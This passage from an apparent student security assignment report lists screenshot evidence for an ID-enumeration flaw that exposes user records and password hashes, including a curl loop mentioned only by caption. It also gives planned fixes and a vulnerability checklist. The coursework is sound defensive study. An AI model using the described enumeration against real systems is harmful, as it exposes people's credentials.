|  | `T1-04e` — `id=4`, `david_patel` record, confirming the NULL-phone edge case still renders (`Not provided`) |
|  | `T1-04f` — `id=5`, `admin` (ADMIN) record fully exposed |
|  | `T1-04h` — Bash/curl loop extracting all 5 password hashes unauthenticated in a single automated pass |
|  | `T1-04i` — Source: `ProfileController.java`, `viewProfile()` showing no auth/ownership check |
|  | `T1-04j` — Source: `view.html`, unconditional field rendering including `passwordHash` |

### Planned prevention (Task 3)
Add a server-side ownership/role check (requested `id` must match the session's `currentUser`, or the session role must be `ADMIN`); replace sequential numeric IDs with non-guessable identifiers (UUIDs) or an indirect reference map; and restrict the fields rendered to a "public profile" DTO/projection that excludes `passwordHash`, `role`, and exact `studyPoints` for non-owner viewers.
## Evidence Checklist (Task 1)

| ID | Vulnerability | Vulnerable code demonstrated | Attack demonstrated | Source location documented | Status |
|---|---|---|---|---|---|
| T1-01 | Stored XSS | ✅ | ✅ | ✅ | Complete |
| T1-02 | SQL Injection | ✅ | ✅ | ✅ | Complete |
| T1-03 | CSRF | ✅ | ✅ | ✅ | Complete |
| T1-04 | Data Aggregation | ✅ | ✅ | ✅ | Pending |
| T1-05 | Unrestricted File Upload | ⬜ | ⬜ | ⬜ | Pending |
| T1-06 | SSRF (SIT738) | ⬜ | ⬜ | ⬜ | Pending |